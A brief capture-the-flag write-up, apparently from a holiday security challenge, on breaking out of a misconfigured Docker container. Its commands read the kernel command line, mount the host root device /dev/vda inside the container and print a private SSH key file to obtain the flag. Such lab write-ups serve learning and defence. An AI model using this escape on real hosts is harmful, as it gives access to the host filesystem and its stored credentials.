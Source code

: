 
# Objective 6: Prison Escape
**Location: Elfen Ring**  
**Elf: Tinsel Upatree**

This objective is about getting familiar with the rest of breaking out of a docker container if the permissions are not set appropriately.
With the below commands, we determine the root filesystem of the system and mount it into the Docker container.
That way we can easily get hold of the flag in the private key file.

```
sudo root
cat /proc/cmdline
panic=1 pci=off ip=dhcp console=ttyS0 reboot=k root=/dev/vda rw virtio_mmio.device=4K@0xd0000000:5 [virtio_mmio.device=4K@0xd0001000](mailto:virtio_mmio.device%3D4K@0xd0001000):6
mkdir /mnt/joergen
mount /dev/vda /mnt/joergen
cat /mnt/joergen/home/jailer/.ssh/jail.key.priv
[...]
082bb339ec19de4935867
```

**082bb339ec19de4935867**

**Achievement: Prison Escape**
